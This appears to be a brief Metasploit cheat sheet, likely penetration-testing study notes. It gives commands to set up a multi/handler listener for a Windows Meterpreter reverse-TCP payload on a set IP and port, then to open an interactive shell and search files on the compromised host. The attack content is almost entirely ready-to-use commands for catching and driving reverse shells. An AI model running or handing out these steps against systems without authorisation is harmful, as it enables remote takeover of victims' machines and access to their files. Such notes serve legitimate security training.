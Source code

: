 First Connect Metasploit to psql db.
```
sudo msfdb init
sudo systemctl enable postgresql
```

**To launch Metasploit:**
```
msfconsole
```

**Using Multi Handler:**
Change Payload, Rhost, Rport, Lhost and Lport accordingly
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.45.156
set LPORT 4444
EXPLOIT
```
Instead of **exploit** we can use **run** or **run -j**. 
**run -j** will keep the process running in the background.

**Meterpreter session:**

To get a fully interactive shell.
```
shell
```

To search a File in Meterpreter Session. **meterpreter >**
```
search -f FILENMAE
```
